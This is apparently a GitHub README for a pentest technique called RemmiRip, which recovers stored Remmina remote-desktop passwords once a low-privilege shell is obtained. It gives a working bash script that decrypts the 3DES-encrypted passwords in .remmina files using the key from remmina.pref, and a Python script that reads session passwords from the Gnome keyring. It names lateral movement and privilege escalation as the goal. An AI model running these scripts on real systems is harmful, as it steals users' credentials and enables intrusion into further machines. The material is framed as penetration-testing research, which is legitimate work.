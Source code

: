 # RemmiRip
Lifting Remmina Credentials from Gnome Keyring

Remmina is a popular multipurpose remote desktop client for Linux capable of supporting RDP, VNC, SSH and more.  This article describes how to recover a user's stored Reminna credentials from the Gnome keyring once a low-priv shell is obtained during a pentest.  Credentials obtained this way would allow lateral movement and privilege escalation on additional systems.

https://remmina.org/

Users can create sessions and optionally store logon credentials.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r00.png)

If the Gnome keyring daemon is not available on the target system then passwords are stored as encrypted base64 strings in the \*.remmina files, which can be decrypted by the key (secret) found in the remmina.pref file.  Methods of recovering passwords from these files is well documented.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r07.png)

https://www.rapid7.com/db/modules/post/multi/gather/remmina_creds

https://village.oyaore.com/home/post/2523/recover-lost-saved-remmina-remote-desktop-client-password

https://gist.github.com/selu/6359496

Here is a sample bash script that decrypts the non-keyring secrets stored in the \*.remmina files:

```bash
#!/bin/bash

echo -e "Enter the base64 secret from \"remmina.pref\":"
read RKEY

echo -e "\nEnter the base64 encrypted password from the \".remmina\" file:"
read REPW

KIV=($(echo -n $RKEY | base64 -di | xxd -p -c 24))
EPW=$(echo -n $REPW | base64 -di | xxd -p -c 256)

echo -e "\nThe decrypted password will appear in the output below:\n"

echo -n $EPW | xxd -r -p | openssl enc -des3 -nosalt -nopad -K "${KIV[0]}" -iv "${KIV[1]}" -d | hexdump -Cv
```

## Method for recovering passwords from Gnome keyring

**Step 1**

The assumption is that you already have a low-priv shell as some user on the target system that has Remmina configuration files.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r01.png)

**Step 2**

Determine the location of the \*.remmina session configuration files if they exist.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r02.png)

**Step 3**

Verify that the Gnome keyring service is in use.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r03.png)

**Step 4**

If you check the \*.remmina configuration files "password" variable and the value is "." then the session passwords are stored in the Gnome keyring.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r04.png)

**Step 5**

The easiest way to recover the passwords is to see if the "secret-tool" utility is installed on the target system.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r05.png)

If so, then just loop through the file names performing a lookup on entries in the Gnome keyring.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r06.png)

**Step 6**

If the "secret-tool" utility is not present then try to extract the passwords with python.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r08.png)

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r09.png)

Here is the python script:

```python
#!/usr/bin/python

from gi.repository import Secret

EXAMPLE_SCHEMA = Secret.Schema.new("org.remmina.Password",
    Secret.SchemaFlags.NONE,
    {
        "filename": Secret.SchemaAttributeType.STRING,
        "key": Secret.SchemaAttributeType.STRING,
    }
)

password = Secret.password_lookup_sync(EXAMPLE_SCHEMA, { "filename": "/home/bill/.local/share/remmina/1541257445686.remmina", "key": "password" }, None)
print password
```

Here is a sample output after running the python script:

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r10.png)

